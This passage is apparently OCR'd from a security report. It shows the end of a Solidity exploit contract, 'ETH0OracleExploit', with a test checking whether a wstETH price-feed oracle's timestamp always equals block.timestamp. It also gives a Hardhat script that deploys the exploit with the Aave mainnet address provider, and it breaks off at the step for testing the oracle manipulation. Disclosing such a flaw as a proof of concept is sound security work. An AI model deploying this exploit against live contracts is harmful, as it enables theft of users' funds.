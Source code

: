 ```solidity
            amount,
            "0x",
            0
        );
    }

    // Test functions to verify oracle behavior
    function testOracleTimestamp() external view returns (uint256) {
        // Get price and timestamp from oracle
        (
            uint80 roundId,
            int256 answer,
            uint256 startedAt,
            uint256 updatedAt,
            uint80 answeredInRound
        ) = ILidoProxyWstETHPriceFeed(daoCollateral.oracle()).latestRoundData();

        // Verify timestamp is always block.timestamp
        require(updatedAt == block.timestamp, "Oracle timestamp not manipulated");
        return updatedAt;
    }
}

// Helper interface for testing
interface ILidoProxyWstETHPriceFeed {
    function latestRoundData() external view returns (
        uint80 roundId,
        int256 answer,
        uint256 startedAt,
        uint256 updatedAt,
        uint80 answeredInRound
    );
}
```

To test: 

1) Deploy the exploit contract code is pasted below:

```javscript
// Deploy script
async function main() {
    const AAVE_ADDRESS_PROVIDER = "0x2f39d218133AFaB8F2B819B1066c7E434Ad94E9e"; // Mainnet
    
    const ExploitFactory = await ethers.getContractFactory("ETH0OracleExploit");
    const exploit = await ExploitFactory.deploy(AAVE_ADDRESS_PROVIDER);
    await exploit.deployed();
    
    console.log("Exploit deployed to:", exploit.address);
}
```

2) Test the Oracle Manipulation:
